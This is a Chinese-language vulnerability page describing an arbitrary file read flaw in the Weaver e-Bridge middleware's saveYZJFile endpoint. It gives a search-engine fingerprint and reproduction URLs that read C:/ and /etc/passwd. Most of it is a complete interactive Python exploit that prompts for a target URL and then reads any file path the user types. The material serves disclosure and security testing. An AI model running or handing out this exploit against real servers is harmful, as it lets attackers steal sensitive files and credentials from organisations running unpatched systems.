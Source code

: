 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 漏洞影响

```
泛微云桥 e-Bridge 2018-2019 多个版本
```

## 网络测绘

```
title="泛微云桥e-Bridge"
```

## 漏洞复现

分为两种，分别为 Windows 和 Linux

### Windows

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt)

![image-20220209104944042](images/202202091049126.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![image-20220209104956250](images/202202091049307.png)

### Linux

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt)

![image-20220209105016727](images/202202091050824.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![image-20220209105027907](images/202202091050974.png)

## 漏洞POC

注意读取Linux系统文件时，需要完整路径

例如读取根目录下的 1.txt

应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)
```

![image-20220209105047595](images/202202091050654.png)